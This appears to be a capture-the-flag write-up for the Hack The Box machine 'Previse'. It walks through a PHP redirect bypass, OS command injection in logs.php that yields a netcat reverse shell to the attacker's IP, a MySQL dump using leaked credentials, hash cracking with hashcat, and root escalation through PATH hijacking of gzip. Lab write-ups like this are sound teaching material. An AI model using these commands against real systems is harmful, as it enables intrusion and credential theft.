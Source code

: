 # 📦 HTB - Previse


## TL;DR

Bypass PHP redirect to access restricted page, create low priv web account, get website backup. Audit code and find OS command injection + MySQL creds, get reverse shell and dump database, get password hash and crack it to SSH. Privesc via path injection.

## Footholds

`nmap` gives us only ports `22` and `80`.

We first get this website:

![index](index.png)

Nothing we can deal with here, no SQL injection :(

![login](login_failed.png)

For more info I used `dirsearch` to fuzz the web pages, and it found the following:

```
/accounts.php
/download.php
/files.php
/login.php
/logout.php
/logs.php
/status.php
```

## User

All with `302 Found` HTTP code, with a redirect towards `/login.php`. With that much info we want to get the content of those pages. To do so I used BurpSuite and made a filter to replace `HTTP/1.1 302 Found` with `HTTP/1.1 200` which worked like a charm, but using only `curl` would also work.

We now have access to the previous pages. In order to download a file you must have a valid `PHPSESSID`, so you want to create your own user on `/accounts.php`. Log in again with your fresh accounts and you can access to the `siteBacku.zip` file at `/files.php`.

In this backup we have multiple files, including a nice `config.php` containing MySQL credentials; we will use it in a minute. We also have the code for the whole webapp. One file caught my attention:

```php
// logs.php
[...]

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

[...]
```

Whatever this means, there is no filter at all for this `$_POST['delim']` variable, therefor we can easily inject some command here. As confidant as always I open a netcat listener on my machine, and inject my payload like so:

```sh
curl -X POST previse.htb/logs.php -b 'PHPSESSID=MY_VALID_SESSION' -d 'delim=;nc IP PORT -e /bin/sh'
```

As expected I got my reverse shell 🎉

Let's upgrade from this poor virgin netcat to a chad upgrade:

```sh
# on reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
(www-data@previse.htb) /var/www/html/: ^Z # Ctrl-Z to background

# on main host
~/ctf/htb/previse
> stty raw -echo; fg

(www-data@previse.htb) /var/www/html/:
```

We now have a better shell, with history and completion. Time to get user!

With the previous info we can directly dump the database:

```sh
mysql -u root -p 'mySQL_p@ssw0rd!:)' -D previse -e 'select * from accounts;'
```

Like so we get a password hash for an another user: `m4lwhere:$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`, we crack it using `hashcat` because `john` did not worked:

![hash](hash_crack.png)

```sh
hashcat -m 500 user_hash /usr/share/wordlist/rockyou.txt
# wait for about 15 minutes...

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can SSH on the box.

## Root

```
(m4lwhere@previse.htb): sudo -l

(root) /opt/scripts/access_backups.sh
```

```sh
# /opt/scripts/access_backup.sh

gzip -c /var/www/apache_logs.gz ...
```

The path for the `access_backup.sh` is absolute, but not for `gzip` in the script. We can then create our own `gzip` executable which will run with `root` rights:

```sh
# /tmp/gzip
#!/bin/sh
cat /root/root.txt > /tmp/root
```

We change our path with `export PATH="/tmp/:$PATH"` and execute the script with sudo:

`cd /tmp; sudo /opt/scripts/access_logs.sh`

![Rooted](rooted.png)

